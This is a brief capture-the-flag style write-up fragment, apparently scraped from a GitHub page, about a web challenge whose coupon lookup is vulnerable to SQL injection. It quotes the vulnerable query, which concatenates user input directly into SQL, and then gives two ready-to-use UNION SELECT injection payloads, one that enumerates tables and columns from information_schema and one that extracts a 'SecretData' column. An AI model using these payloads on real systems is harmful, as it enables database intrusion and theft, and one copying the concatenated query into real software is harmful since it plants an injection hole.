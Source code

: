 You can see python code by accessing /?source=1  

Vulnerable piece of code:  

mycursor.execute("SELECT * FROM coupons WHERE code = '" + opcode + "'")  
SQL:  
' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND ''='  
SQL:  
' UNION SELECT 1,SecretData,2 FROM 64ff585930293b81079991770a3b28de WHERE ''='

